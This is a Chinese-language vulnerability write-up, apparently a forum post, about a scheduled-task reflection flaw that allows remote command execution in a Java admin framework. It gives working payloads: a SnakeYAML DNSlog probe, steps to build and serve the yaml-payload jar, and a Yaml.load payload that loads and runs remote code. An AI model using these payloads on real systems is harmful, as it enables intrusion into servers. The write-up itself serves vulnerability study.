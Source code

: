这大概就是定时任务加载类的逻辑

漏洞成因
----

接着我们新增一个定时任务，看看在创建的过程中对调用目标字符串做了哪些处理

抓包可以看到直接调用了`/monitor/job/add`这个接口

![image-20240305203342583](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-76db78a1473a0314143d0a813963f175660864bf.png)

可以看到就只是判断了一下，目标字符串是否包含`rmi://`，这就导致导致攻击者可以调用任意类、方法及参数触发反射执行命令。

![image-20240305203753016](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-85aa69d0421513243f55c2fba3357cfd01beb3b8.png)

![image-20240305203844623](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-fc599b4dbbd09dad269e2d6a95c2212f0cf3dc0f.png)

由于反射时所需要的：类、方法、参数都是我们可控的，所以我们只需传入一个能够执行命令的类方法就能达到getshell的目的，该类只需要满足如下几点要求即可：

- 具有public类型的无参构造方法
- 自身具有public类型且可以执行命令的方法

4.6.2
-----

因为目前对**调用目标字符串**限制不多，so直接拿网上公开的poc打吧！

- 使用Yaml.load()来打SnakeYAML反序列化
- JNDI注入

### SnakeYAML反序列化

探测SnakeYAMLpoc：

```php
String poc = "{!!java.net.URL [\"http://5dsff0.dnslog.cn/\"]: 1}";
```

利用SPI机制-基于ScriptEngineManager利用链来执行命令，直接使用这个师傅写好的脚本：<https://github.com/artsploit/yaml-payload>

1）把这块修改成要执行的命令

![image-20240305230802764](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-aaa947e4c6ed99a6133eb87abcf205cf05f2fd75.png)

2）把项目生成jar包

```php
javac src/artsploit/AwesomeScriptEngineFactory.java　　　　//编译java文件
jar -cvf yaml-payload.jar -C src/ .　　　　　　　　　　　　　//打包成jar包
```

3）在yaml-payload.jar根目录下起一个web服务

```php
python -m http.server 9999
```

4）在计划任务添加payload，执行

```php
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1:9999/yaml-payload.jar"]]]]')
```
